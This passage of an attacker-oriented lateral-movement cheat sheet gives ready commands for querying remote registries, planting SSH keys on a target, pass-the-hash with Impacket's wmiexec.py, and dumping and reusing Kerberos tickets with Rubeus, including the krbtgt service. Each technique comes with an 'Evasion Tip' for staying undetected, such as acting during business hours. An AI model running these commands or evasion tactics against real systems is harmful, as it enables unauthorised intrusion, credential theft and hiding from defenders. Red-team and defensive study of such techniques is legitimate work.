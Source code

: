 - **Remote Registry**:
  - **Tools**: `reg.exe`, PowerShell registry cmdlets
  - **Example (Query Remote Registry)**:
    ```cmd
    reg query \\<target>\HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    ```
  - **Evasion Tip**: Limit queries to specific keys. Avoid excessive registry operations.

- **SSH/SCP (Linux)**:
  - **Tools**: `ssh`, `scp`
  - **Example (SSH with Key Authentication)**:
    ```bash
    # Generate key if needed (do this on your attacking machine, not target)
    ssh-keygen -t ed25519 -f ~/.ssh/lateral_key -q -N ""
    
    # Copy key to target (requires initial password access)
    ssh-copy-id -i ~/.ssh/lateral_key.pub user@<target>
    
    # Connect with key
    ssh -i ~/.ssh/lateral_key user@<target>
    ```
  - **Evasion Tip**: SSH is a legitimate admin tool. Use key authentication when possible. Consider using non-standard ports if the environment allows.

## 3. Credential-Based Techniques

These techniques focus on obtaining and using credentials for lateral movement.

- **Pass-the-Hash (Windows)**:
  - **Tools**: `mimikatz`, `CrackMapExec`, `Impacket`
  - **Example (Impacket's wmiexec.py)**:
    ```bash
    wmiexec.py -hashes <LM_hash>:<NT_hash> <domain>/<username>@<target>
    ```
  - **Evasion Tip**: Avoid extracting hashes from memory if possible (high detection risk). If you must use PtH, do it minimally and during business hours.

- **Kerberos Ticket Reuse**:
  - **Tools**: `mimikatz`, `Rubeus`, `Impacket`
  - **Example (Rubeus - Pass the Ticket)**:
    ```powershell
    # First export ticket
    Rubeus.exe dump /service:krbtgt /nowrap
    
    # Then use the ticket
    Rubeus.exe ptt /ticket:<base64_ticket>
    ```
  - **Evasion Tip**: Ticket reuse is generally less detected than extracting new credentials. Use tickets with appropriate lifetimes.
